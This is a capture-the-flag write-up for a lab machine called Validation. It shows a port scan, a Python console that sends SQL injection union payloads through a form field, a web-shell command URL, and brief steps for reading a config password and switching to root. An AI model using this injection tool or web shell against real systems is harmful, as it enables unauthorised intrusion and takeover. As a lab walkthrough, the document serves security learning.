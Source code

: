 # Validation Write-Up

Easy

Tags:
`SQLi`


## Intro

1. Modify post request to inject SQL to upload bash shell
2. Send request to connect reverse shell
3. Read config.php to get global password
4. Switch user as root

## Enumeration

### Port scanning

```
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http          Apache httpd 2.4.48 ((Debian))
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
8080/tcp open     http          nginx
```

## Exploit

```
Cookie: user=098f6bcd4621d373cade4e832627b4f6
username=test&country=Brazil
```

SQL injectin in country parameter

```py
class Term(Cmd):

	prompt = "> "

	def default(self, args):
		name = f'{random.randrange(1000000,9999999)}'
		res = requests.post(
			'http://<target-id>',
			headers={
				"Content-Type": 'application/x-www-form-urlencoded'
			},
			data={
				"username": name,
				"country": f"' union {args};-- -"
			}
		)
		soup = BeautifulSoup(res.text, 'html.parser')
		if soup.li:
			print('\n'.join([x.text for x in soup.findAll('li')]))
	
	def do_quit(self, args):
		return 1

term = Term()
term.cmdloop()
```

SQL injection command

send request to execute command

```
http://<target-id>/shell.php?cmd=<command>
```

use bash shell

nc listener

switch use

```
su -
```

global pw in config.php

## Reference

https://0xdf.gitlab.io/2021/09/14/htb-validation.html
